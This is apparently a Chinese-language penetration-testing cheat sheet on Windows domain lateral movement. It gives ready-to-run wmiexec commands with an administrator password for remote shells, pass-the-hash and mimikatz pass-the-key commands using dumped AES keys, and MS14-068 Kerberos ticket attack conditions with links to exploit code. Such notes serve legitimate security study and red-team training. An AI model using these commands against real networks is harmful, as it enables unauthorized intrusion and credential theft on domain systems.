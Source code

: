 ### wmiexec
要执行命令并回显请使用wmiexec.py，⽤445端口传回显：
```cmd
python wmiexec.py administrator:Liu78963@192.168.183.130
// python wmiexec.py 用户名:密码@目标IP
```
指定-hashes选项的话，则可进行哈希传递。

exe版本命令与wmiexec.py一模一样。在跳板机上上传wmiexec.exe并运行如下命令获取目标系统192.168.52.138的shell：
```cmd
wmiexec.exe administrator:Liu78963@192.168.183.130
```

### wmiexec.vbs
https://github.com/Twi1ight/AD-Pentest-Script/blob/master/wmiexec.vbs

wmiexec.vbs脚本通过VBS调用WMI来模拟PsExec的功能。其可以在远程系统中执行命令并进行回显，获取远程主机的半交互式Shell。

wmiexec.vbs支持两种模式，一种是半交互式shell模式，另一种是执行单条命令模式。

## PTK-密钥传递
即 Pass The Key ，当系统安装了 KB2871997 补丁且禁用了 NTLM 的时候，那我们抓取到的 ntlm hash. 也就失去了作用，但是可以通过 pass the key 的攻击方式获得权限。

> 利用条件
>
> 1、目标主机打过KB2871997
>
> 2、所以必须使用SID值为500的用户

```cmd
mimikatz sekurlsa::ekeys
//获取用户的aes key
sekurlsa::pth /user:xxx /domain:xxx /aes256:xxxxxxxx"
//注入aes key，成功后会返回一个cmd
```



## PTT-票据传递

### MS14-068
> 利用条件
>
> 1.域控没有打MS14-068的补丁(KB3011780)
>
> 2.拿下一台加入域的计算机，并且能dump出某一域成员的用户名，密码，SID等值

域用户hack在域成员主机A上登录过，域成员主机A的管理员通过`mimikatz`得到了域用户hack的用户名，密码，SID等值，而且域控存在`MS14-068`漏洞，现在域成员主机A想通过`MS14-068`漏洞访问域控。

https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068

https://www.cnblogs.com/-mo-/p/11890539.html
